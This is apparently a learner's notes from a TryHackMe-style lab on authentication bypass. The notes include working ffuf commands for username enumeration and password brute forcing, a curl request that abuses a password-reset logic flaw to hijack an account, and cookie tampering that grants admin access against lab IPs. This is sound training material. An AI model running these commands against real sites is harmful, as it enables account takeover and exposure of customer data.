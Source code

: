 # Authentication bypass
- different ways website authentication can be bypassed, defeated or broken - ends in leaks of customer data

### Username enumuration
- using ffuf to find the already signed up usernames from the commonly used usernames list
- when an user already exists, it retusn "username already exists"
- ffuf allows passing regex to check the return response form the website and find the matched usernames
> ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.39.132/customers/signup -mr "username already exists"

- w- wprd list
- x http request
- d - data we are going to send
- FUZZ - its where ffuf replaces the words and do the automation
- H - to pass additonal header information
- u - the url we are going to make the request
- mr - text on the page we are looking for to validate we found the username
- 
> The ffuf tool and wordlist come pre-installed on the AttackBox or can be installed locally by downloading it from https://github.com/ffuf/ffuf.


 ### Brute fource using FFUF
 > ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.135.246/customers/login -fc 200


### Logic flaw
           
user@tryhackme$ curl 'http://10.10.135.246/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'

> curl 'http://10.10.135.246/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'


### Cookie tampering

plain text cookie:
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/

> curl http://10.10.135.246/cookie-test
> not logged in

> curl -H "Cookie: logged_in=true; admin=false" http://10.10.135.246/cookie-test
> loggedin as a user

> curl -H "Cookie: logged_in=true; admin=true" http://10.10.135.246/cookie-test
> Logged in as admin


**Hashing**

> https://crackstation.net/ keep databases of billions of hashes and their original strings.

**Encoding**
- convert binary data to human readable data
- support ASCII characters

- base32 - converts binary data to characters A-Z and 2-7
- base64 - convert binary data to characters A-Z, a-z, 0-9, +, / and the equal sign for padding

- 

        
